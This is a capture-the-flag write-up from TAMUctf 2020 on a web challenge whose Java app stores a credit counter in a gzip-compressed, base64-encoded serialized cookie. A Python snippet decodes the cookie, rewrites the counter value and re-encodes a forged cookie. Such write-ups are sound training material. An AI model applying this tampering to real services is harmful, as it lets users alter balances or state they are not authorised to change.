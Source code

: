 ```yaml
---
layout: post
category: writeups
title:  "TAMUctf 2020"
date: 2020-03-20
head_ctf_categories:
  - web
  - misc
  - rev
  - crypto
  - pentest
  - pwn
---
```


# Web

## Too many credits 1

> Okay, fine, there's a lot of credit systems. We had to put that guy on break; seriously concerned about that dude.
> Anywho. We've made an actually secure one now, with Java, not dirty JS this time. Give it a whack?
> If you get two thousand million credits again, well, we'll just have to shut this program down.

The page shows us a counter of credits and lets us increment it by one clicking on a button.

Counter state is saved in a cookie named `counter=H4sIAAA.../.../...A==`.

The first fours characters of every cookie, `H4sI`, points to gzip compressed data.

Decompressing the cookie gets access to a plain text serialization of the Java Class.

Only need to modify the value and compress it back.

```python
import gzip
import base64
import zlib

gzip.decompress(base64.b64decode("H4sIAAAAAAAAAFvzloG1uIhBNzk/Vy+5KDUls6QYg87NT0nN0XMG85zzS/NKjDhvC4lwqrgzMTB6MbCWJeaUplYUMEAABwAU254bUgAAAA=="))
# b'\xac\xed\x00\x05sr\x00-com.credits.credits.credits.model.CreditCount2\t\xdb\x12\x14\t$G\x02\x00\x01J\x00\x05valuexp\x00\x00\x00\x00\x00\x00\x00\x08'

moreCredits = b'\xac\xed\x00\x05sr\x00-com.credits.credits.credits.model.CreditCount2\t\xdb\x12\x14\t$G\x02\x00\x01J\x00\x05valuexp\x00\x00\x00\x00\xFF\xFF\xFF\xFF'
base64.b64encode(gzip.compress(moreCredits))
# b'H4sIAKpBdl4C/1vzloG1uIhBNzk/Vy+5KDUls6QYg87NT0nN0XMG85zzS/NKjDhvC4lwqrgzMTB6MbCWJeaUplYUMADBfyAAAMVz/stSAAAA'
```
